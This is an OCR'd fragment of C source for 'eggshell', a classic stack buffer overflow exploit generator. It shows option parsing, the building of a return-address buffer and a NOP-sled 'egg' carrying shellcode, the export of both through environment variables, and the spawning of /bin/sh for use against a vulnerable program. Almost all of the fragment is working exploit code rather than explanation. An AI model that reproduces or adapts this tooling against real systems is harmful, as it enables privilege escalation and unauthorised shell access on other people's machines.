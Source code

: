 ```C
      case 'o':
        offset = atoi(optarg);
        break;
      case '?':
        usage();
        exit(0);
    }

  if (strlen(shellcode) > eggsize) {
    printf("Shellcode is larger the the egg.\n");
    exit(0);
  }

  if (!(bof = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }
  if (!(egg = malloc(eggsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n",
    bsize, eggsize, align);
  printf("[ Address:\t0x%x\tOffset:\t\t%d\t\t\t\t]\n", addr, offset);

  addr_ptr = (long *) bof;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i <= eggsize - strlen(shellcode) - NOP_SIZE; i += NOP_SIZE)
    for (n = 0; n < NOP_SIZE; n++) {
      m = (n + align) % NOP_SIZE;
      *(ptr++) = nop[m];
    }

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  bof[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';

  memcpy(egg,"EGG=",4);
  putenv(egg);

  memcpy(bof,"BOF=",4);
  putenv(bof);
  system("/bin/sh");
}

void usage(void) {
  (void)fprintf(stderr,
    "usage: eggshell [-a <alignment>] [-b <buffersize>] [-e <eggsize>] [-o <offset>]\n");
}
```
<PRE>
</PRE>